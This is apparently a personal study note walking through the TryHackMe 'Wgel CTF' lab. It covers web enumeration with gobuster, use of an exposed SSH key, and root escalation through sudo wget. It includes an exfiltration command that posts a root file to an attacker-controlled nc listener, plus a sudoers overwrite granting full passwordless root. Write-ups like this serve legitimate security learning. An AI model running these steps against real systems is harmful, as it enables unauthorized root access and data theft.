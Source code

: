 
2024-07-01 16:46

Source: #tryhackme 

Tags: [[Privilege Escalation]] 

### HTTP

at port 80 Apache is running
on seeing the source code we see a comment that suggests a possible user on the server 
#### Dirbuster 

1. run gobuster on `http://<ip>`
2. we find /sitemap
3. run gobuster again on `http://<ip>/sitemap`
4. we find `.ssh` private `rsa` key of the user found in the source code
### SSH 

1. copy the content of the key to a file
2. run `chmod 600 file` to give the file appropriate permissions
3. login via [[ssh]] as the user found in the source code, using the file as a private key (use -i to specify key)
### Privilege Escalation 

1. `sudo -l `works and tells us we can run `wget` with `sudo`
2. `gtfobins` has a exploit of file upload for [[wget]] 
3. start listening using `nc` on port 9000 in a new terminal
4. according to `gtfobins` we craft an attack to directly get the root flag- 
```
sudo wget --post-file=/root/root_flag.txt http://<Attackbox IP>:9000
```
### Root Shell

gtfobin has exploits listed for file upload/download/read
To get a shell with admin privileges we first get the file using the same way as with the flag, we edit the sudoers file locally by adding our own settings for the user.`/etc/sudoers`
```
#jessie  ALL=(root) NOPASSWD: /usr/bin/wget
jessie  ALL=(ALL) NOPASSWD: ALL
```


### References
[TryHackMe | Wgel CTF](https://tryhackme.com/r/room/wgelctf)